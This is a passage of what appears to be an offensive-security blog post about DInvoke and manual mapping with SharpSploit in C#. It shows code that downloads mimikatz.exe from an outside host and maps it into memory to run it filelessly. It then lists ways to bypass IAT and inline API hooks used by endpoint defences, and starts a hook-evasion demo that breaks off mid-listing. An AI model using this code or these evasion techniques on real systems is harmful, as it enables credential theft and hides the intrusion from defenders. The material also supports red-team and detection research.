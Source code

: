 ```csharp
            // (4) Mimikatz x64
            byte[] katzBytes = new System.Net.WebClient().DownloadData(@"http://192.168.123.227:8000/mimikatz.exe");
            SharpSploit.Execution.PE.PE_MANUAL_MAP ManMapKatz = SharpSploit.Execution.ManualMap.Map.MapModuleToMemory(katzBytes);
            SharpSploit.Execution.DynamicInvoke.Generic.CallMappedPEModule(ManMapKatz.PEINFO, ManMapKatz.ModuleBase);

            Console.ReadLine();
        }
    }
}    

```

![_config.yml]({{ site.baseurl }}/images/DInvoke/Manual_Map4.png "DInvoke and Manual Mapping")

### Bypass Hooking

DInvoke provides you with many options for how to execute unmanaged code. 

* Want to bypass IAT Hooking for a suspicious function? No problem! Just use `GetLibraryAddress` or `GetExportAdress` to find the function by parsing the module's EAT. 
* Want to avoid calling `LoadLibrary` and `GetProcAddress`? Use `GetPebLdrModuleEntry` to find the module by searching the PEB.
* Want to avoid inline hooking? Manually map a fresh copy of the module and use it without any userland hooks in place.
* Want to bypass all userland hooking without leaving a PE suspiciously floating in memory? Go native and use a syscall!

These are just some examples of how you could bypass hooks. The point is: by providing you with powerful and flexible primitives for determining how code is executed, all operational choices are left up to you. Choose wisely. ;-)

### Example - Demonstrating API Hook Evasion

Let us demonstrate evading API hook evasion using DInvoke and Manual Mapping. In the example below, we will first call `OpenProcess` normally using PInvoke. Then, we will call it in the sequence described above (minus syscalls) to demonstrate that each mechanism successfully evades API hooks. 

```csharp

///Author: TheWover
using System;
using System.Runtime.InteropServices;

namespace SpTestcase
{
    class Program
    {

        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern IntPtr OpenProcess(
            SharpSploit.Execution.Win32.Kernel32.ProcessAccessFlags processAccess,
            bool bInheritHandle,
            uint processId
        );

        static void Main(string[] args)
        {
            // Details
            String testDetail = @"
            #=================>
            # Hello there!
            # I demonstrate API Hooking bypasses
```